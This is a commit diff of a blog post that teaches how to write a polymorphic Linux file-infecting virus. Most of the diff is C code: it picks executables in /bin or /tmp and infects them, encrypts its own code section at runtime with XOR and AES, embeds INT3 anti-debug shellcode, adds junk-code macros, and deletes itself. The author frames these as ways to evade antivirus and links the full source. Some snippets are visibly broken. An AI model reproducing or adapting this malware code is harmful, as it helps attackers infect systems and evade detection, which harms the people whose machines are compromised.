

Before and after one commit to 0xf00I/0xf00i.github.io, a Jekyll site: the page built from _posts/2023-5-22-Writing a simple, Stealthy malware.md, in a window 1280 px wide and 1400 px high, scrolled down 2108 px. Shown: the whole window, without its empty margins (253-1021 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update 2023-5-22-Writing a simple, Stealthy malware.md

````diff
--- a/_posts/2023-5-22-Writing a simple, Stealthy malware.md
+++ b/_posts/2023-5-22-Writing a simple, Stealthy malware.md
@@ -1,209 +1,184 @@
----
-title: Writing a simple, Stealthy malware
-layout: default
-tags: [malware development]
-blog_post: true
----
+# Introduction
 
-# Introduction
-This article will discuss and demonstrate how polymorphic malware use self-modification to hide its inner workings, In my previous post [metamorphic malware](https://0xf00i.github.io/2023/01/14/Metamorphic-malware.html), I explained how to write a malware with metamorphism features. So what is it, Well, Polymorphic malware is an old idea basically “is being able to assign a different behavior or value to something” which make it tricky to detect and protect against, Polymorphic malware takes advantage of encryption to obfuscate its original code effectively evading detection by traditional signature-based detection mechanisms. [Source Code](https://github.com/0xf00I/Dark-morph/)
+
+This article will discuss and demonstrate how polymorphic malware use self-modification to hide its inner workings, In my previous post metamorphic malware, I explained how to write a malware with metamorphism features. So what is it, Well, Polymorphic malware is an old idea basically “is being able to assign a different behavior or value to something” which make it tricky to detect and protect against, Polymorphic malware takes advantage of encryption to obfuscate its original code effectively evading detection by traditional signature-based detection mechanisms. [Source Code](https://github.com/0xf00I/Dark-Morph)
 
 encrypting the code, However, The effectiveness of AV has improved over time In the early days detection relied heavily on signature-based scanning which programs would compare files and system components against a database of known malware signatures. which a malware can still be deadly until they’re detected and signed by antivirus companies, Now AV focuses more on using A.I and implementing more sophisticated algorithms such as behavior-based detection (monitoring the actions and activities of running programs) Still, There are plenty of examples of malware ignored by everyone because they are silent enough not to attract the attention of the guards.
 
+
 # Background
--  I'm assuming you're familiar with Encryption techniques, XOR encryption, memory access and protection – before continuing, it's recommended you read up on these topics.
+
+* I’m assuming you’re familiar with Encryption techniques, XOR encryption, memory access and protection – before continuing, it’s recommended you read up on these topics.
+
 
 # Overview
-- The malware designed to be simple in the way it behave but complex enough to not  attract attention, The idea behind the malware is not about executing payload but only about obfuscation and self-modification we will explore code snippets that demonstrate the implementation of obfuscation. These snippets will provide insights into the specific techniques and mechanisms employed to evade detection, Finally I'll provide a detailed explanation of each code segment, shedding light on the inner workings of the malware.
+
+* The malware designed to be simple in the way it behave but complex enough to not  attract attention, The idea behind the malware is not about executing payload but only about obfuscation and self-modification we will explore code snippets that demonstrate the implementation of obfuscation. These snippets will provide insights into the specific techniques and mechanisms employed to evade detection, Finally I’ll provide a detailed explanation of each code segment, shedding light on the inner workings of the malware.
+
 
 ## Execution flow
-+ The malware scans the current directory and overwrites all executable files that have not been previously infected each propagation uses a unique version of the code, The original executable is run from a hidden file it was copied to during the propagation phase to disguise the fact that the actual executable was infected. Finally, the malware spawns a child process, which creates a reverse shell that allows an attacker to execute commands on a remote host.
 
-## Propagation
-Infect different directory if you run it as root or as a simple user, but the way it chooses its target will be the same.
+The malware scans the current directory and overwrites all executable files that have not been previously infected each propagation uses a unique version of the code, randomly selects an executable file and infects it by applying obfuscation techniques.The infected file becomes a carrier for the obfuscated code, allowing it to spread to other directories when executed.
+
+
+### Propagation
+
+The malware scans the current directory and overwrites all executable files that have not been previously infected, Infect different directory based on user privileges.
 
 ```c
-if (uid == 0) {
-        // Running as root
-        scanDirectory("/bin", 1);
-        scanDirectory("/sbin", 1);
-        scanDirectory("/usr/bin", 1);
-        scanDirectory("/usr/sbin", 1);
+// Entry point
+void infectRandomExecutable(const char* directoryPath) {
+        struct stat st;
+      //   JUNK
+    char* targetDirectory;
+    if (getuid() == 0) {
+        targetDirectory = "/bin";
     } else {
-        // Running as a simple user
-        scanDirectory("/tmp/test", 0);
-        scanDirectory("/tmp/test2", 0);
+        targetDirectory = "/tmp";
     }
+    DIR* dir = opendir(targetDirectory);
+    if (dir == NULL) {
+        ("opendir");
+        return;
+    }
+    struct dirent* entry;
+    int numExecutables = 0;
+    while ((entry = readdir(dir)) != NULL) {
+        if (entry->d_type == DT_REG) {
+            char* fileName = entry->d_name;
+            if (isELF(fileName) && isClean(fileName)) {
+                numExecutables++;
+            }
+        }
+    }
+    closedir(dir);
+    if (numExecutables == 0) {
+        printf("No executables found in %s\n", targetDirectory);
+        return;
+    }
+          //   JUNK
+    srand(time(NULL));
+    int targetIndex = rand() % numExecutables + 1;
+    dir = opendir(targetDirectory);
+    int currentIdx = 0;
+    while ((entry = readdir(dir)) != NULL) {
+        if (entry->d_type == DT_REG) {
+            char* fileName = entry->d_name;
+            if (isELF(fileName) && isClean(fileName)) {
+                currentIdx++;
+                if (currentIdx == targetIndex) {
+                    char fullPath[PATH_MAX];
+                    snprintf(fullPath, sizeof(fullPath), "%s/%s", targetDirectory, fileName);
+                    int vfd = open(fullPath, O_RDONLY);
+                    infectHostFile(fullPath, vfd);
+                    close(vfd);
+                    printf("Successfully infected: %s\n", fullPath);
+                    break;
+                }
+            }
+        }
+    }
+    closedir(dir);
+}
+
 ```
 
--   If running as root, the program scans the directories "/bin", "/sbin", "/usr/bin", and "/usr/sbin" by passing the flag 1 to the ``scanDirectory`` function.
--   If running as a simple user, the program scans the directories "/tmp/test" and "/tmp/test2" by passing the flag 0 to the ``scanDirectory`` function.
+
+### Obfuscation
+The malware modifies its own instructions at runtime, enabling it to exhibit different behaviors dynamically, the self-modification is employed through the encryption process. The malware modifies the code section by XORing its bytes with a counter value. This process alters the code bytes, effectively encrypting the code section.
 
 
 ```c
-scanDirectory = opendir ("./");
-if (dir != NULL) {
-
-// Iterate over all files in the current directory
-while ((ent = readdir (dir)) != NULL) {
-
-// Select regular files only, not DT_DIR (directories) nor DT_LNK (links)
-if (ent->d_type == DT_REG)
-{
-
-// Select executable and writable files that can be infected
-if (access(ent->d_name, X_OK) == 0 && access(ent->d_name, W_OK) == 0)
-{
-
-// Ignore the executable that is running the program
-if (strstr(exclude, ent->d_name) != NULL)
-{
-original_executable = ent->d_name;
-}
-
-// Ignore hidden executables with infected label
-else if (strstr(ent->d_name, "infected") != NULL)
-{
-first_run = 0;
-}
-	 closedir (dir);
-} else {
-
-// Error if directory fails to open
-fprintf (stderr, "Cannot open %s (%s)\n", "./", strerror (errno));
-exit (EXIT_FAILURE);
+void b_xor(unsigned char* xorcode, size_t size) {
+    unsigned char key[32];
+    RAND_bytes(key, sizeof(key));
+    for (int i = 0; i < XOR_ROUNDS; i++) {
+        for (int j = 0; j < size; j++) {
+            xorcode[j] ^= key[j % sizeof(key)];
+        }
+    }
 }
 ```
 
-This one seems pretty self explanatory
+The underlying idea behind XOR obfuscation is its use in  one-time pad. Given a plaintext represented in bits, if it is  XORed with a random key of equal length, then the resulting  encryption is perfectly secure.
 
-```c
-propagate("./", argv[0]);
+the plaintext represents a malware, then one can encrypt the malware by using a key of equivalent length. However, this requires huge key sizes. As a  result, we use short key, single byte, and encrypt equivalent sized blocks. The use of a  single byte is known as single-byte XOR encoding  Due to short keys used in XOR encoding based obfuscation, there are various tools that can deobfuscate the malware or find the key. That's why we randomly generate our key's using
 ```
-
-We call the ``propagate`` function for the propagation to start
-
-```c
-if (first_run == 1)
-{
-execute("touch .foo_%s", original_executable);
-execute("chmod +x .foo_%s", original_executable);
-}
+RAND_bytes(key, sizeof(key));
 ```
-
-``.foo_<original_executable>`` using the ``execute`` function. It uses the ``original_executable`` variable to construct the filename.
-
-executes a bash command to change the permissions of the hidden file created in the previous line to make it executable. It uses the ``original_executable`` variable to construct the filename.
-
-## Obfuscation
-The underlying idea behind XOR obfuscation is its use in  one-time pad. Given a plaintext represented in bits, if it is  XORed with a random key of equal length, then the resulting  encryption is perfectly secure.
 
 
 ```c
-_basic_xor(unsigned char* xorcode, size_t size) {
-unsigned char key[] = { 0x69, 0x13, 0x37, 0xd1, 0x9a, 0x33, 0x42 };
-size_t keylen = 7;
-for (unsigned long i = OFFSET; i < END; i++) {
-*(code + i) ^= key[i % keylen];
-	}
+unsigned char* generateRandomKey(size_t size) {
+    unsigned char* key = (unsigned char*)malloc(size);
+    RAND_bytes(key, size);
+    return key;
 }
-```
-
-the plaintext represents a malware, then one can encrypt the malware by using a key of equivalent length. However, this requires huge key sizes. As a  result, we use short key, single byte, and encrypt equivalent sized blocks. The use of a  single byte is known as single-byte XOR encoding  Due to short keys used in XOR encoding based obfuscation, there are various tools that can deobfuscate the malware or find the key.
-
-```c
-unsigned char code[] = "\x55\x48\x89\xe5\x48\x83\xec\x10\xc7\x45\xfc\x22\x00\x00\x00\x8b\x45\xfc\x0f\xaf\x45\xf8\x8b\x45\xf8\x5d\xc3";
 
 ```
 
-we declares a function  named ``encrypted``,  assigns the address of the ``code``  to the ``encrypted`` function
+
+### Self-modification
+
+The malware modifies its own instructions at runtime, enabling it to exhibit different behaviors dynamically, the self-modification technique is employed through the encryption process. The encrypt_code function modifies the code section by XORing its bytes with a counter value derived from the initialization vector (IV). This process alters the code bytes, effectively encrypting the code section.By encrypting the code, the malware achieves polymorphic behavior because the encrypted code appears different each time it runs. This makes it challenging for static analysis techniques to detect and analyze the malicious behavior.
+
 
 ```c
-int (*encrypted)() = (int(*)())code;
-
-// obfuscate second code section using XOR
-unsigned char* xorcode = code + sizeof(encrypted)/2 - 0x10;
-// start of XOR instructions
-basic_xor(xorcode, sizeof(xorcode));
-// decrypt obfuscated code
-basic_xor(xorcode, sizeof(xorcode));
-```
-
-We calls the ``obfuscate_xor`` function again to decrypt the previously obfuscated code located at the `xorcode` address. It effectively reverses the XOR operation, restoring the original code. The decryption routine together with the key is normally part of the code which obfuscates the code
-
-##  Self-modification
-The malware modifies its own instructions at runtime, enabling it to exhibit different behaviors dynamically, the self-modification technique is employed through the encryption process. The ``encrypt_code`` function modifies the code section by XORing its bytes with a counter value derived from the initialization vector (IV). This process alters the code bytes, effectively encrypting the code section.
-By encrypting the code, the malware achieves polymorphic behavior because the encrypted code appears different each time it runs. This makes it challenging for static analysis techniques to detect and analyze the malicious behavior.
-
-
-```C
 // get pointer to first byte of main function
 uint8_t* code = (uint8_t*) &main;
-
 // calculate page size and mask for page alignment
 long pagesize = sysconf(_SC_PAGESIZE);
 if (pagesize <= 0)
 return 1;
 size_t mask = pagesize - 1;
-
 // align code to page boundary
 void* alignedcode = (void*) ((size_t) code & ~mask);
-
 // make code writable
 if (mprotect(alignedcode, (size_t) code - (size_t) alignedcode + END, PROT_READ | PROT_WRITE | PROT_EXEC))
 return 1;
+
 ```
 
-The code aligns the ``code`` pointer to a page boundary and makes the code section writable using ``mprotect``. This allows modifications to the code section.
+
+The encrypt_code function takes a code section, size, key, and initialization vector (IV) as parameters. It encrypts the code section using AES encryption. It generates a counter value using the IV and XORs the code bytes with the counter. This effectively encrypts the code section.
+
 
 ```c
-// encrypt first code section using key1 and iv1
-static void encrypt_code(unsigned char* code, size_t size, unsigned char* key, unsigned char* iv) {
-
-AES_KEY aes_key;
-
-if (AES_set_encrypt_key(key, 256, &aes_key) < 0)
-exit(1);
-
-for (unsigned long i = 0; i < size; i += AES_BLOCK_SIZE) {
-unsigned char ctr[AES_BLOCK_SIZE];
-
-AES_encrypt(iv, ctr, &aes_key);
-
-for (unsigned int j = 0; j < AES_BLOCK_SIZE && i + j < size; j++) {
-code[i + j] ^= ctr[j];
-	}
-
-iv[0]++;
-}
-	}
-	1[0]++;
+void encrypt_code(unsigned char* xorcode, size_t size, unsigned char* key, size_t keylen) {
+    AES_KEY aes_key;
+    AES_set_encrypt_key(key, keylen * 8, &aes_key);
+    AES_encrypt(xorcode, xorcode, &aes_key);
 }
 ```
 
-The ``encrypt_code`` function takes a code section, size, key, and initialization vector (IV) as parameters. It encrypts the code section using AES encryption. It generates a counter value using the IV and XORs the code bytes with the counter. This effectively encrypts the code section.
 
-We add a random delay before encryption by generating a delay between 0 and 999 milliseconds using ``srand`` and ``rand``. It then sleeps for the calculated delay using `usleep`.
+We also add a random delay before encryption by generating a delay between 0 and 999 milliseconds using srand and rand. It then sleeps for the calculated delay using usleep
 
-```C
+
+```c
 // add random delay before encryption
 srand(time(NULL));
 int delay = rand() % 1000; // random delay between 0 and 999 milliseconds
 usleep(delay * 1000);
-
 // make code read-only and executable
 if (mprotect(alignedcode, (size_t) code - (size_t) alignedcode + END, PROT_READ | PROT_EXEC))
 return 1;
+
 ```
 
-After the encryption process and delay, the code snippet makes the code section read-only and executable again using ``mprotect``. This helps to enforce memory protection and prevent further modifications.
 
-## Anti-Analysis
+After the encryption process and delay, the code snippet makes the code section read-only and executable again using mprotect. This helps to enforce memory protection and prevent further modifications.
+
+
+### Anti-Analysis
+
 In this part we use a various forms of anti-analysis measures, and self-modifying behavior, making it more difficult for analysts to understand the inner workings of the code and extract meaningful information
 
-### Anti-debugging
-[Anti-Debug Trick INT3 Trap Shellcode the INT3 instruction](https://packetstormsecurity.com/files/157562/Linux-x64-Anti-Debug-Trick-INT3-Trap-Shellcode.html)
-), triggers a breakpoint interrupt, commonly used for debugging purposes. By incorporating INT3 instructions strategically within the shellcode, it attempts to interrupt and disrupt the debugging process, making it difficult for a debugger to analyze the code flow.
+
+#### Anti-debugging
+
+Anti-Debug Trick INT3 Trap Shellcode the INT3 instruction), triggers a breakpoint interrupt, commonly used for debugging purposes. By incorporating INT3 instructions strategically within the shellcode, it attempts to interrupt and disrupt the debugging process, making it difficult for a debugger to analyze the code flow.
+
 
 ```c
 char shellcode[] =
@@ -222,68 +197,67 @@ char shellcode[] =
 "\x48\x89\xf2\xeb\xb1\x6a\x0d\x58"\
 "\x6a\x05\x5f\x6a\x08\x41\x5a\xeb"\
 "\xb2";
+
 ```
 
-### Anti-disassembling
-"junk code" we defined macro named JUNK, which consists of assembly instructions deliberately designed to confuse reverser. The macro includes instructions such as pushing and popping the eax register, XORing eax with itself, and using an undefined instruction sequence, followed by a single byte (0x04). These instructions introduce meaningless code that can make the disassembly output more hard to know what exactly going on.
+
+#### Anti-disassembling
+
+“junk code” we defined macro named JUNK, which consists of assembly instructions deliberately designed to confuse reverser, These instructions introduce meaningless code that can make the disassembly output more hard to know what exactly going on.
+
 
 ```c
 #define JUNK \
 
-__asm__ volatile("push %eax \n"\
-				 "xor %eax, %eax\n"\
-				 "jz .+5 \n"\
-				 ".word 0xC483 \n"\
-				 ".byte 0x04 \n"\
-				 "pop %eax \n");
+__asm__ volatile(
+"xor %eax, %eax\n"\
+"jz .+5 \n"\
+".word 0xC483 \n"\
+".byte 0x04 \n");
+
 ```
 
-### Autodestruction
+#### Autodestruction
+
 This Part of the code will come as Kill-Switch sending the malware a command to delete itself from infected devices also it can be used as anti-analysis techniques. simply utilizing a combination of forking a child process and executing code in the child process, the autodestruction mechanism adds a layer of complexity to the self-destruction process. This complexity can make it more challenging for novice reversers or analysts to understand the behavior of the malware, By dynamically creating a detached thread and copying code instructions into memory, the autodestruction mechanism can avoid static analysis techniques that rely on examining the original executable file. Additionally, the attempts to delete the file and the usage of sleep delays further complicate the analysis process.
 
-``remote_thread`` that is executed in a remote process. It waits for the parent process to terminate using ``pthread_join``, attempts to delete the file specified by ``szFileName`` using ``fnUnlink``, and if the deletion fails, it sleeps for one second before trying again. Finally, it exits the remote process using ``fnExit``.
+
+
+remote_thread that is executed in a remote process. It waits for the parent process to terminate using pthread_join, attempts to delete the file specified by szFileName using fnUnlink, and if the deletion fails, it sleeps for one second before trying again. Finally, it exits the remote process using fnExit
+
 
 ```c
 /* Routine to execute in remote process. */
 static void remote_thread(SELFDEL *remote)
 {
-
 /* wait for parent process to terminate */
 void *status;
 pthread_join(pthread_self(), &status);
-
 /* try to delete the executable file */
 while(remote->fnUnlink(remote->szFileName) == -1)
-
 {
-
 /* failed - try again in one second's time */
 remote->fnSleep(1);
 }
-
 /* finished! exit so that we don't execute garbage code */
 remote->fnExit(0);
 }
+```
 
-  ```
 
-``SelfDelete`` function that initiates the self-deletion process. It creates a child process using ``fork()`` and executes different code paths for the parent and child processes.
+SelfDelete function that initiates the self-deletion process. It creates a child process using fork() and executes different code paths for the parent and child processes.
 
 ```c
 /* Delete currently running executable and exit */
 int SelfDelete(int fRemoveDirectory)
-
 {
-
 SELFDEL local = {0};
 pid_t pid = fork();
 if (pid == -1) {
 perror("fork");
 return -1;
 } else if (pid == 0) { // child process
-
 // copy in binary code
-
 memcpy(local.opCodes, &remote_thread, CODESIZE);
 local.fnWaitForSingleObject = (void (*)(void *))pthread_join;
 local.fnCloseHandle = (void (*)(void *))pthread_detach;
````
Also changed, not shown: other parts of _posts/2023-5-22-Writing a simple, Stealthy malware.md (+9 -15 lines).
